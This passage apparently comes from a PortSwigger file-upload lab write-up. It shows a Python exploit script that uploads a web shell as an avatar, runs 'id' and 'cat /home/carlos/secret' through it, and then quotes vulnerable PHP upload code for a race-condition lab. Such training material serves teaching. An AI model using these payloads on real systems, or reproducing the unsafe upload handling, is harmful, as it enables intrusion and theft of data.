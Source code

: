 ```python
	'csrf':upload_csrf_token
}

r = s.post(url + '/my-account/avatar', files=file, data=form_data)
if f'avatars/{filename}' not in r.text:
	print("[-] Upload failed")
	sys.exit(1)
print("[+] Upload worked")


r = s.get(url + f'/files/avatars/{filename}?cmd=id')
if '12002(carlos)' not in r.text:
	print("[-] RCE failed")
	sys.exit(1)
print("[+] RCE worked")

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + f'/files/avatars/{filename}', params=params)
print(r.text)
```

## Lab 7: Race Condition

The lab has a race condition, and I suppose it is because it deletes the file quickly.

I found that using the NULL byte trick works:

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-7.png)

Here's the code from the website:

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
```